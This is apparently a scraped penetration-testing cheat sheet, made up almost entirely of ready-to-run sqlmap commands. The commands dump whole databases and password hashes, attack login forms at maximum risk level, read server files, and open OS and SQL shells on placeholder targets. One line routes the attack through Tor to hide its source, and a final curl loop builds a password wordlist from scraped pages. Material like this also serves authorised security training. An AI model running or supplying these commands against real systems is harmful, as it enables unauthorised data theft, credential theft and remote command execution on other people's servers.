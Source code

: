 SQLMap dump tables from database oscommerce at GET SQL injection point ‘search’
sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps
SQLMap GET Parameter command
sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5
SQLMap Post Username parameter
sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all
SQL Map OS Shell
sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell
sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell
Automated sqlmap scan
sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE
--level=3 --current-user --current-db --passwords
--file-read="/var/www/blah.php"
Targeted sqlmap scan
sqlmap -u "http://meh.com/meh.php?id=1"
--dbms=mysql --tech=U --random-agent --dump
**Scan url for union + error based injection with mysql backend
and use a random user agent + database dump
**sqlmap -o -u http://$ip/index.php --forms --dbs
sqlmap -o -u "http://$ip/form/" --forms
sqlmap check form for injection
sqlmap -o -u "http://$ip/vuln-form" --forms
-D database-name -T users --dump
sqlmap dump and crack hashes for table users on database-name.

Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs
Enumerate tables from a specific database
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables
Dump table data from a specific database and table
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
Specify parameter to exploit in 'nice' URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1\*/param2/value2" --dbs # exploits param1
Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell
Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell
SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"
Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs

Password Attacks
AES Decryption
http://aesencryption.net/

Convert multiple webpages into a word list
for x in 'index' 'about' 'post' 'contact' ; do curl http://$ip/$x.html | html2markdown | tr -s ' ' '\n' >> webapp.txt ; done
